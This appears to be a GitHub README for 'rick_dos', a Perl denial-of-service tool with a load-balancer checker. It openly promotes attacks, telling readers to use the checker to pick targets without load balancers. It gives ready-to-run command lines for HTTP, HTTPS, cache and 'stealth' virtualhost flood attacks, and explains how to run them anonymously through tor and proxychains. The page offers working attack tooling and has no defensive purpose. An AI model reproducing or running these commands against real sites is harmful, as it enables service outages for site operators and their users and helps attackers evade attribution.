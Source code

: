 # rick_dos and Load Balancer Check
Tool Write in Python to Make Denial of Service and Verify if Site have Load Balancer

I recomend use Linux to make attack, this tool make SYN flood on DNS

To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

#Install

```
git clone https://github.com/rickgds80/rick_dos.git

cd rick_dos
sudo chmod +x rickhack.pl rickhack_loadbalancer_check.sh
```

# dependencies
```
sudo apt-get install perl-doc
```

# usage:


**To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

Load Balancer Check:

usage: ./rickhack_loadbalancer_check.sh [domain]
Dont use http or https in name of domain
usage: ./rickhack_loadbalancer_check.sh example.com

```
./rickhack_loadbalancer_check.sh example.com
```

![image](https://user-images.githubusercontent.com/38327991/158487328-fa3be986-7ae3-4033-878b-869acc2d381f.png)


If the target has a load balancer it will appear like this:

![image](https://user-images.githubusercontent.com/38327991/158487613-a44542aa-3604-4147-9974-1d418e3487be.png)



For Help:
```
perldoc ./rickhack.pl
```

For testting the program:
```
./rickhack.pl -dns www.example.com -port 80 -test
```


For HTTP Dos Attack:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5
```

Attack with httpready:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5 -httpready
```

Attack with stealth mode using virtualhost
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com
```

Attack on sites with HTTPS, SSL
```
./rickhack.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https
```

Attack with Cache
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -cache
```


# if you want executting the Attack in anonymous mode, you can combine with proxychains:

Install Dependencies:
```
sudo apt install tor
sudo apt install proxychains
```

Usage: 
tor and proxychains in front of rickhack.pl commands, like the example:
```
tor &
proxychains ./rickhack.pl -dns www.example.com -port 80 
```

![image](https://user-images.githubusercontent.com/38327991/158490018-1f08aa16-66f6-4645-b232-9e18a3a934ff.png)




# Glory to Ukraine!!!

![image](https://user-images.githubusercontent.com/38327991/158488171-b2d3fb1a-d100-4940-ac47-a9bd9dc0c2f0.png)
